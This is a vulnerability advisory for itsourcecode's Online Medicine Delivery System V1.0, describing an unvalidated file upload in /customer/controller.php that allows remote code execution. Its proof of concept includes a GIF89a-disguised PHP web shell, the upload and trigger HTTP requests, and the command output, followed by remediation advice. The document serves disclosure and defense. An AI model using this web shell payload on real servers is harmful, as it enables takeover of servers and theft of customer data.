


# itsourcecode Online Medicine Delivery System V1.0 - Remote Code Execution via '/customer/controller.php'
---

## 1. Product Information
---

| Field | Value |
| --- | --- |
| **Product Name** | Online Medicine Delivery System |
| **Product Link** | [https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/](https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/) |
| **Vendor** | itsourcecode |
| **Affected Version** | V1.0 |
| **Authentication Required** | Yes, requires Customer login session |


## 2. Vulnerability Type
**Authenticated File Upload Leading to Remote Code Execution**

---

## 3. Vulnerability Description
The customer controller `/customer/controller.php` of Online Medicine Delivery System contains two file upload vulnerabilities, neither of which performs whitelist validation on uploaded file extensions or randomly renames files:

1. `doupdateimage()`** function (action=photos)**: Used for updating customer avatars, uses `getimagesize()` to verify whether the file is an image, but can be bypassed with a GIF89a image shell
2. `processorder()`** function (action=processorder)**: Used for uploading prescription images with orders, **has no file validation at all**, directly executing `move_uploaded_file()`

This vulnerability requires a Customer login session, but an attacker can combine it with the Customer authentication SQL injection bypass vulnerability of this system to obtain a Customer session without knowing the password, effectively making this vulnerability exploitable without authentication.

**Affected Code**:

`customer/controller.php:295-319` (doupdateimage — only getimagesize check)

```php
function doupdateimage(){
    $myfile =$_FILES['photo']['name'];
    $location="customer_image/".$myfile;
    // ...
    @$image_size= getimagesize($_FILES['photo']['tmp_name']);
    if ($image_size==FALSE) {
        message("Uploaded file is not an image!", "error");
    }else{
        move_uploaded_file($temp,"customer_image/" . $myfile);
    }
}
```

`customer/controller.php:178-196` (processorder — no validation at all)

```php
function processorder(){
    if(!isset($_FILES['image']['name'])){
        $location = '';
    }else{
        $myfile =$_FILES['image']['name'];
        $location="uploaded_images/".$myfile;
        // No getimagesize check, directly uploaded
        move_uploaded_file($temp,"uploaded_images/" . $myfile);
    }
}
```

---

## 4. Impact
+ **Remote Code Execution (RCE)**: An attacker can upload a web shell to obtain server command execution privileges, fully controlling the server
+ **Sensitive Data Disclosure**: Through RCE, arbitrary server files can be read (configuration files, database credentials, user data, etc.)
+ **Internal Network Pivoting**: After obtaining a server shell, it can be used as a pivot point for further penetration into the internal network
+ **Persistent Backdoor**: The uploaded web shell persists on the server and can be accessed repeatedly

---

## 5. PoC
**Step 1 — Craft a GIF89a image shell**:

Append PHP code after a valid GIF89a file header:

```plain
GIF89a\x01\x00\x01\x00\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x4c\x01\x00\x3b<?php system('type C:\Windows\win.ini'); ?>
```

**Step 2 — Upload the image shell via doupdateimage**:

```plain
POST /customer/controller.php?action=photos HTTP/1.1
Host: *************
Cookie: PHPSESSID=<customer_session>
Content-Type: multipart/form-data; boundary=----Boundary
Connection: close

------Boundary
Content-Disposition: form-data; name="photo"; filename="shell2.php"
Content-Type: image/gif

GIF89a<?php system('type C:\Windows\win.ini'); ?>
------Boundary--
```

**Step 3 — Access the uploaded web shell to trigger code execution**:

```plain
GET /customer/customer_image/shell2.php HTTP/1.1
Host: *************
Connection: close
```

**Response**:

```plain
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

GIF89a; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[WINSET]
**********
```

The `type C:\Windows\win.ini` command was successfully executed, and the contents of the `win.ini` file were fully output, confirming successful remote code execution.

The execution screenshot shows that after uploading the web shell, the return code is 200 and the contents of the win.ini file can be displayed:






---

## 6. Remediation
1. **File Extension Whitelist**: Only allow uploading image files with specified extensions
2. **Randomly Rename Uploaded Files**: Use randomly generated filenames instead of original filenames to prevent attackers from controlling the upload path
3. **Disable PHP Execution in Upload Directories**: Add `.htaccess` in the `customer_image/` and `uploaded_images/` directories
4. **Add File Validation to processorder**: This function currently has no validation at all; at minimum, `getimagesize()` checks and extension whitelisting should be added
5. **Store Files Outside the Web Root**: Uploaded files should be stored in a directory that cannot be directly accessed via URL, and read/output through PHP scripts as needed

